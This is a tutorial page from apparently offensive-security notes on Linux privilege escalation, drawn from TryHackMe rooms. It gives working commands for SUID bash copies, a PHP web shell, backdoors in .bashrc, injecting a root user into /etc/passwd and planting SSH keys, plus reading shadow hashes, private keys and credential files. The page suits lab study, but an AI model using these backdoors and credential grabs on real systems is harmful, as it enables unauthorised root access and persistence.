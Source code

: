 ```yaml
---
description: >-
  Go from a low-privilege user to a higher one to gain access to things you're
  not supposed to
---
```


# Linux Privilege Escalation

If a system has been set up well, you might not instantly get all the privileges on the machine when you get in. It's pretty common to have a web server run as a low-privilege user, so if it ever gets hacked the attacker might not be able to do much on the server.

The point of Privilege Escalation is to abuse features of the system to execute commands as more privileged users, thus escalating your own privileges on the system.​ Most of the information was from the Linux PrivEsc rooms on TryHackMe:

{% embed url="https://tryhackme.com/room/linprivesc" %}
First PrivEsc room with some basic techniques
{% endembed %}

{% embed url="https://tryhackme.com/room/linuxprivesc" %}
Second PrivEsc room with more advanced techniques and a lot of detail
{% endembed %}

## Getting Shells

Often in privilege escalation, you're letting a high-privilege user execute some command. Sometimes you can't directly execute a shell as that user and have to run some other command to send a way to get a shell somewhere. One simple way is to just execute a reverse shell as that user. Then you will get a privileged reverse shell in your listener. See [#reverse-shells](../hacking-linux-boxes.md#reverse-shells "mention") for some examples of this.&#x20;

Another easy way if you already have access to the box, is to create a [#setuid](command-triggers.md#setuid "mention") binary of bash that the target user is the owner of. The safest way to do this is to first copy /bin/bash to another location, which will make the owner of the file the user that executed the command. Then to later get back those privileges just add the SUID bit with `chmod +s` to take over the privileges of the owner when you execute the program as a low-privilege user.&#x20;

{% code title="Let target execute:" %}
```shell
cp /bin/bash /tmp/bash; chmod +xs /tmp/bash
```
{% endcode %}

<pre class="language-shell-session" data-title="Low-privilege user"><code class="lang-shell-session"><strong>$ /tmp/bash -p  # -p to maintain privileges
</strong># id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
</code></pre>

### Writing files

If you can only write to files, without running commands yet, you can write to some specific locations that will later execute commands. Profile files such as `.bashrc` or `.profile` contain scripts that are executed every time the user logs in, and you may be able to hide a reverse shell command here to trigger whenever the user logs in again.&#x20;

If you are able to write at some place with code that is executed by another user, try overwriting this code with a reverse shell or anything else you want them to do. For example a PHP shell like `<?= system($_GET["cmd"]) ?>` to run commands on a website. This really depends on what technologies exist on the system, but overwriting libraries may also be an option.&#x20;

For an instant trigger, the root user may edit `/etc/passwd` to add another root-level user with your own password. Then you can log in as that user and get root privileges:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ openssl passwd 'hacker'  # Generate password
</strong>aQeFa8LxllpT.
</code></pre>

Then if you somehow append the following line to the `/etc/passwd` file, you will be able to log in as root using the password "hacker":

<pre class="language-shell"><code class="lang-shell">root:x:0:0:root:/root:/bin/bash
...
<strong>hacker:aQeFa8LxllpT.:0:0:root:/root:/bin/bash
</strong></code></pre>

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ su hacker
</strong>Password: hacker
# id
uid=0(root) gid=0(root) groups=0(root)
</code></pre>

If the machine uses SSH, another way would be to append your own public key to the `.ssh/authorized_keys` file in the target's home directory, which permits you access to the user via SSH. Just `cat` out your own `~/.ssh/id_rsa.pub` starting with `ssh-rsa...` and add it to a new line in the `.ssh/authorized_keys` file. Then you are allowed to log in simply using SSH:

```shell-session
$ ssh root@$IP
```

{% hint style="warning" %}
Default installations of SSH don't allow logging in as `root`. To check this look at the `PermitRootLogin` option in `/etc/ssh/sshd_config`:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ grep PermitRootLogin /etc/ssh/sshd_config
</strong>PermitRootLogin yes
</code></pre>
{% endhint %}

Another way is creating a **backdoor** in the user's home directory. For Bash, the `~/.bashrc` file is most common as it executes in any non-login interactive shell. However, for login shells like SSH, a few more are executed in the following order. The _first_ readable file is the _only_ one that executes:

1. `~/.bash_profile`
2. `~/.bash_login`
3. `~/.profile`

Often the above files execute `~/.bashrc` as well to make sure login shells work similarly to non-login ones, so this is often your best bet. Here is a table that shows what Bash by itself:

<table><thead><tr><th width="330.3333333333333">Command</th><th width="191">Execute ~/.bashrc?</th><th>Execute ~/.bash_profile?</th></tr></thead><tbody><tr><td><code>bash -c [command]</code></td><td><mark style="color:red;"><strong>NO</strong></mark></td><td><mark style="color:red;"><strong>NO</strong></mark></td></tr><tr><td><code>bash [command]</code></td><td><mark style="color:red;"><strong>NO</strong></mark></td><td><mark style="color:red;"><strong>NO</strong></mark></td></tr><tr><td><code>echo [command] | bash</code></td><td><mark style="color:red;"><strong>NO</strong></mark></td><td><mark style="color:red;"><strong>NO</strong></mark></td></tr><tr><td><code>[command]</code></td><td><mark style="color:red;"><strong>NO</strong></mark></td><td><mark style="color:red;"><strong>NO</strong></mark></td></tr><tr><td><code>ssh ... [command]</code></td><td><mark style="color:green;"><strong>YES</strong></mark></td><td><mark style="color:green;"><strong>YES</strong></mark></td></tr><tr><td><code>login</code>, <code>bash -l</code></td><td><mark style="color:red;"><strong>NO</strong></mark></td><td><mark style="color:green;"><strong>YES</strong></mark></td></tr><tr><td><code>bash</code></td><td><mark style="color:green;"><strong>YES</strong></mark></td><td><mark style="color:red;"><strong>NO</strong></mark></td></tr></tbody></table>

See [this article](https://www.baeldung.com/linux/bashrc-vs-bash-profile-vs-profile) to get a full understanding, as well as the [source code](https://github.com/bminor/bash/blob/ec8113b9861375e4e17b3307372569d429dec814/shell.c#L1123-L1260).&#x20;

### Reading files

Being able to read files as a privileged user can allow you to read sensitive information. If you are reading as the `root` user, you may read the shadow hashes in `/etc/shadow`, which can be cracked locally to find users' passwords (See more info in [#cracking-shadow-hashes](../../cryptography/hashing/cracking-hashes.md#cracking-shadow-hashes "mention")). Then if you have cracked a password you can just log in as that user using `su`:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ su root
</strong>Password: password123
# id
uid=0(root) gid=0(root) groups=0(root)
</code></pre>

Another common file to read is SSH private keys. These are located in the user's home directory in a `.ssh` folder. To find the home directory for a user you can check `/etc/passwd`:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ cat /etc/passwd | awk -F: '{print $1, $6}'
</strong>root /root
...
www-data /var/www
user /home/user
</code></pre>

This folder often contains an `id_rsa` file that is only readable by the user, but contains the private key that can be used SSH into that user. When you are able to read this file, copy it to your attacking machine and use `ssh -i` to use the private key:

<pre class="language-shell-session" data-title="Attacker"><code class="lang-shell-session"><strong>$ cat id_rsa  # Downloaded private key
</strong>-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAtc7FngGLGz9oReOq2b7k2grTgvQGtP+Yax3it73ZGuxASVKq
...
BAmcHcSorWfiOeasmS2HsoAqsBJr8DqDVAo4274CYxZooDqq+6Rimg==
-----END RSA PRIVATE KEY-----
<strong>$ chmod 600 id_rsa  # Set correct permissions to allow SSH to use it
</strong><strong>$ ssh -i id_rsa root@$IP
</strong># id
uid=0(root) gid=0(root) groups=0(root)
</code></pre>

Some places where you may find cleartext/hashed credentials are firstly `.htpasswd` files for websites, if authentication is implemented this way. These files will contain a username and password separated by a `:` colon. \
In [git.md](../../forensics/git.md "mention") repositories, the `.git/config` file may also hold credentials for a _remote origin_. These are in plaintext as they are used directly for authentication, so you may find strong passwords.

```bash
find / -type f -name .htpasswd 2>/dev/null
find / -type d -name .git 2>/dev/null
```

### Deleting files

This is a bit of a special case, but if you have a primitive to delete an arbitrary file, you may be able to remove files that protect a service normally but still work without the file. You may find that an application replaces a **configuration file** with the default if it cannot find it, resetting any extra protections an admin may have put on it.&#x20;

Another trick is when the target user does not want to be spied on, so they symlink their `~/.bash_history` to `/dev/null`. This is a common default configuration in some places as well. When you **delete** this file it will remove the symlink, and bash will simply create the file and write to it when the next command is executed that should be put in the history. You may be able to read sensitive command-line arguments like passwords or other secrets if it is readable by you.&#x20;
